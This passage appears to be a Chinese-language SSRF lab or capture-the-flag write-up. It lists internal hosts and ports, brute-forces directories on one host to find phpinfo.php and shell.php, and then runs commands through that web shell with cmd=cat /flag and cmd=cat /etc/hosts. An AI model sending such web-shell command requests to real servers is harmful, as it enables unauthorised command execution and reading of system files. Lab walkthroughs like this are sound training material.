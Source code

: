 ```bash
172.72.23.21	80
172.72.23.22	80
172.72.23.23	80、3306
172.72.23.24	80
172.72.23.25	80
172.72.23.26	8080
172.72.23.27	6379
172.72.23.28	6379
172.72.23.29	3306
```

### 172.72.23.22

#### 目录爆破

```
http://172.72.23.22:80/index.php
```

![image-20240904161342289](https://image.201068.xyz/assets/29.SSRF/image-20240904161342289.png)

```
ip：172.72.23.22:80

目录字典：
```

![image-20240904160645740](https://image.201068.xyz/assets/29.SSRF/image-20240904160645740.png)

![image-20240904161430934](https://image.201068.xyz/assets/29.SSRF/image-20240904161430934.png)

![image-20240904161502643](https://image.201068.xyz/assets/29.SSRF/image-20240904161502643.png)

![image-20240904161544275](https://image.201068.xyz/assets/29.SSRF/image-20240904161544275.png)

![image-20240904172256557](https://image.201068.xyz/assets/29.SSRF/image-20240904172256557.png)

![image-20240904172325970](https://image.201068.xyz/assets/29.SSRF/image-20240904172325970.png)

```
http://172.72.23.22/phpinfo.php
http://172.72.23.22/shell.php
```

#### 命令执行

```
http://172.72.23.22/shell.php?cmd=cat%20/flag

http://172.72.23.22/shell.php?cmd=cat%20/etc/hosts
```

![image-20240904172605970](https://image.201068.xyz/assets/29.SSRF/image-20240904172605970.png)
